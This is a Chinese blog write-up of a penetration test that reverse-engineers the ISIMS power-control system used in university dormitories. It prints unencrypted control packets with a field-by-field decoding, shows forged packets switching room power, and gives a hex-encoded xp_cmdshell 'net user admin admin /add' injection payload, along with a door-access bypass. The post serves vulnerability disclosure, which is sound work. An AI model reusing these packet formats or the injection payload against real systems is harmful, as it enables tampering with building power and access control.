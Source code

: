 ```yaml
---
layout:     post
title:      论操纵大楼灯光打游戏的可行性
subtitle:   对ISIMS智能电控系统的分析
date:       2018-03-02
author:     volcanohatred
header-img: img/articles/控电/title.jpg
catalog: true
tags:
    - 逆向
    - socket编程
    - 渗透测试
    - 极客
---
```



>黑入电控系统然后操纵大楼灯光打游戏是很多黑客电影所有的桥段，有人觉得现实中不可能实现。我想说这种东西实现起来很容易，要想操纵电力，无非是操纵智能电控系统然后控制电力而已（当然不排除其他方法）。很多人可能会问，现实生活中不是都是机械开关么？哪来的智能电控系统，其实不然，智能电控早已普遍存在，只是很多人不知道而已。




## 1.智能电控系统

智能电控系统即对强电加入智能弱电控制模块，从而达到对电力的控制和操作。近年来，很多大型企业、学校单位为了方便对电力的管理和收费，都引进了对楼宇的智能电控系统。而且随着网络化和智能化的发展和普及，对智能电控系统的布控在国内也成增长趋势。国内做智能电控系统的厂家很多，比如新开普的电控水电表管理系统，常工电子的ISIMS智能计量管理系统等。
但是，智能电子产品的应用越普及，意味着对安全的需求也越高，作为一个安全从业者，有必要对其产品的安全进行严格把控。
## 2.对ISIMS智能计量管理软件的分析

在一次渗透测试中，拿到了某大学的电力控制服务器权限，所以本文就以这台服务器上的ISIMS智能计量管理软件为研究对象，进行分析。
ISIMS智能计量管理软件是常州股份公司开发的产品，因为它的方便性和智能性，使得国内很多大学都在用它来进行学生宿舍的计费和控制。ISIMS智能计量管理软件属于注册商用软件，所以网上是没有下载的。闲的无聊去公司官网看了看，发现应用案例还挺多。
![应用案列1](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片1.png)
![应用案列2](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片2.png)

话不多说，开始分析吧！！！


注：此研究软件的版本        客户端 Sims 	   v3.23.15
		                  服务端 Simserv 	v3.24.01

### 2.1工作模式

ISIMS的工作模式如下图：

![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片3.png)

client（tcp client）—>server(tcp server)—>中位机（tcp client）

ISIMS电控系统采用C/S模式进行通讯，由客户端发送控制代码给电控服务端，服务端收到控制数据发往每层楼的中位机以此实现弱电控制强电。

### 2.2传输数据分析

用WPE对客户端的数据进行抓包分析：
A用户登陆数据包：
![封包](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片4.png)

电力控制数据包：

![封包](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片5.png)

A用户注销数据包：

![封包](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片6.png)

开关成功返回数据：

![封包](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片7.png)

经过对数据包进行大致分析，发现传送的数据均没有进行加密处理，而且发现客户端发送的数据并无时效性，这样伪造数据包显得轻而易举。另外，对电力的控制数据包大小固定，为543字节，如果控制命令成功执行，则返回一个29字节的数据包，否则返回一个21字节大小的数据包。但是要想伪造数据包对某个特定房间进行开关电，则需要对电力控制的那个大小为543字节的数据包进行解析才能随意构造。
A用户对某个房间开数据，发往服务器：

`00 00 00 07 00 00 00 AA 00 00 00 94 00 00 00 00 00 00 02 0B 01 2E 00 00 00 02 08 00 00 00`
`33 04 10 37 33 02 F3 00 00 00 00 00 00 69 0E 38 02 CD AB BA DC 00 00 00 00 00 00 00 00 69` `0E 38 02 AC F9 18 00 C8 F9 18 00 30 02 17 76 B8 6B 44 06 14 FA 18 00 91 6D 10 76 51 6D 10` `76 75 DE 87 6E 00 00 00 00 4A 03 03 00 B8 6B 44 06 24 00 00 00 01 00 00 00 00 00 00 00 00` `00 00 00 70 00 00 00 FF FF FF FF FF FF FF FF E9 6C 10 76 91 6D 10 76 0C FA 18 00 01 00 00` `00 00 00 00 00 7C 5E 43 06 B8 F9 18 00 60 FA 18 00 60 FA 18 00 1E A6 16 76 39 49 8F 18 FE` `FF FF FF 51 6D 10 76 E8 6D 10 76 00 00 00 00 69 0E 38 02 4A 03 03 00 99 01 00 00 03 00 00` `00 00 00 00 00 48 22 F2 00 F3 6D 10 76 11 DE 87 6E 99 01 00 00 00 00 00 00 B8 6B 44 06 04` `00 00 00 B8 C7 4B 00 7C 5E 43 06 3C FA 18 00 B8 6B 44 06 BC FA 18 00 1E A6 16 76 99 49 8F` `18 FE FF FF FF F3 6D 10 76 44 6E 10 76 20 22 F2 00 DA F8 2C 77 57 6E 10 76 94 FA 18 00 18` `00 00 00 00 00 00 00 20 22 F2 00 7C 5E 43 06 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00` `00 00 00 00 00 24 FB 18 00 1A 01 2C 77 C4 FA 18 00 00 00 00 00 9C FB 18 00 80 00 2C 77 20` `22 F2 00 00 00 00 00 99 01 00 00 03 00 00 00 00 00 00 00 69 0E 38 02 D2 25 2E 77 04 00 00` `00 B9 72 10 76 61 21 11 76 4A 03 03 00 99 01 00 00 03 00 00 00 00 00 00 00 00 00 00 00 B1` `02 00 00 01 00 00 00 00 00 00 00 99 01 00 00 B8 6B 44 06 00 00 00 00 AC FD 18 00 4A 03 03` `00 00 00 00 00 48 FB 18 00 7A 61 11 76 20 22 F2 00 00 00 00 00 69 0E 38 02 03 00 00 00 00` `00 00 00 01 00 00 00 03 00 00 00 BC FB 18 00 8F 85 47 00 4A 03 03 00 99 01 00 00 03 00 00` `00 F7 3C 40 00 03 00 00 00 7C 5E 43 06 B8 62 51 00 B8 6B 44 06 03 00 00 00 03 00 00 00 B8`
 `6B 44 00 `

服务器发往中位机的数据：（对服务端进行抓包）

```
7D 33 04 10 37 33 02 F3 00 AB EA 7F
```

### 2.3逆向分析

ISIMS客户端由3个动态链接库文件、1个配置文件和1个可执行文件组成。分别是CtoS.dll,midas.dll,Mwic_32.dll;
SimsClient.ini;SIMS.exe。SimsClient.ini里面是一些服务器ip，端口的信息，所以目的是对3个动态链接库文件和可执行文件进行逆向分析。SIMS.exe无壳，由Delphi编写。
Send函数位于CtoS.dll中，下条件断点使之发送的数据大小为21F（543）时断下：
![逆向分析](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片8.png)

在返回点下断找调用函数，以此往上找原数据组成：
![逆向分析](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片9.png)
![逆向分析](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片10.png)
![逆向分析](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片11.png)
通过对数据的拆分，发现543字节大小的数据由3部分组成，前23字节的数据加16字节数据再加后面的数据。
![逆向分析](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片12.png)

### 2.4分析总结

发往服务器的543字节的数据中，前39字节为关键数据，后面的数据为无用数据，在前39个字节中后面的9位最为关键：
`00 00 00 07 00 00 00 AA 00 00 00 94 00 00 00 00 00 00 02 0B 01 2E 00 00 00 02 08 00 00 00` `33 04 10 37 33 02 F3 00 00`

33位分隔字符，04位代表楼层编号，10代表中位机号，37为端口号，02 F3 为开电功能位。即：管理器地址+中位机地址+48加端口号》》》》转化成16进制。汇编代码如下：
![控制码](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片13.png)
![控制码](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片14.png)

客户端启动之后会向服务器发送数据库查询指令，服务器会返回各栋楼各个中位机和房间端口的数据，放在某段内存之中，以便发送和接收数据调用。所以，得出结论，要想操纵大楼灯光打游戏就是对控制数据包的前39个字节中的后9位进行构造，然后编写算法以达到目的。


## 3.伪造数据包对寝室电力进行控制

### 3.1伪造数据开关目标房间

初步的设计思路为编写tcp客户端向电控服务器发送登陆请求，然后伪造数据发包,最后注销用户,C代码如下：
![网络编程](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片15.png)
![网络编程](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片22.png)
![网络编程](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片17.png)
![网络编程](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片18.png)
![网络编程](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片19.png)
![网络编程](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片20.png)
![网络编程](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片21.png)

>上面代码中禁用nagel算法很关键，不禁用数据会先放到缓冲区，然后等到一定大小才会发送，这样发送到服务器的数据包会是一个粘在一起的包含登陆控制注销代码的数据包，服务器不会识别。

测试：发现目标房间开关电成功。
![测试](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片27.png)
![测试](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片28.png)
![测试](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片29.png)
### 3.2操纵大楼灯光打游戏的可行性

既然我们已经分析了关键数据实现了对某个房间的开关，那就可以实现对整栋楼房间的开关。但是要想用灯光打游戏，需要考虑的是延迟性和服务器的处理能力，后来我做了相关测试，发现延迟性太高和服务器处理能力不足的问题都有出现：同时发送三个房间的开数据会出现一个房间未能开电。
这里可以改变代码的执行路径，改变ISIMS的工作模式:
![工作模式3](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片23.png)

直接写一个服务器程序向每栋楼的串口通讯服务器的web服务发包。(需要在web服务上添加本机ip，设置端口）。
![串口通讯服务器](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片30.png)
问题得到解决。现在要考虑的就只有游戏代码问题了。（略）  
## 4.漏洞挖掘
在无意之中，发现客户端在未发送登陆数据的情况下，发送控制代码依然可以控制目标房间的电力，而在未发送登陆数据的情况下发送注销代码在服务器日志上会被记录为sa用户已退出，初步推断此系统存在验证漏洞。
在之前的OD中看到有数据库执行命令，在客户端中，当用户点击查询指令时，客户端会向服务器发送这段指令：
![漏洞挖掘](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片24.png)

在之前的渗透测试中，发现服务器使用的是sql server数据库，既然服务器对发送的数据验证不严格，可以试着构造恶意数据库命令添加系统用户试试。多次测试分析发现，在执行数据库命令时，数据包前18位不发生改变：
`0x00,0x00,0x00,0x07,0x00,0x00,0x00,0x55,0x00,0x00,0x00,0x74,0x00,0x00,0x00,0x00,0x00,0x00`

第18、19位用来表示后面要执行的sql语句的字段大小，现在构造一条添加系统用户的语句：
`exec master..xp_cmdshell 'net user admin admin /add'.`

转化位16进制：

`0x65,0x78,0x65,0x63,0x20,0x6d,0x61,0x73,0x74,0x65,0x72,0x2e,0x2e,0x78,0x70,0x5f,0x63,0x6d,`
`0x64,0x73,0x68,0x65,0x6c,0x6c,0x20,0x27,0x6e,0x65,0x74,0x20,0x75,0x73,0x65,0x72,0x20,0x61,`
`0x64,0x6d,0x69,0x6e,0x20,0x61,0x64,0x6d,0x69,0x6e,0x20,0x2f,0x61,0x64,0x64,0x27,0x00`(总共53位）再加上前面的20位前缀：
`0x00,0x00,0x00,0x07,0x00,0x00,0x00,0x55,0x00,0x00,0x00,0x74,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0X35`

将构造的数据通过tcp客户端发送给服务器：
![伪造发包](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片25.png)

服务器成功添加新用户！

## 5.扩展测试

上面做了对电力系统的测试，后来我对门禁系统也同样进行了测试，也发现了同样的问题，对数据包的验证同样无时效性，下图为向某个下属刷卡门进行测试：返回1，代表开门成功，门禁系统这里不做讨论。
![门禁](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片26.png)


可以看出在内网之中各种基础设施和系统的脆弱性！！！原因是企业单位往往只是满足于系统的功能性，只要能用就ok，而全然不顾系统的安全性，往往部署完系统，只要能够正常运行，就不再对系统进行升级或者安全检查，这给整个内网早成了很大的安全隐患。
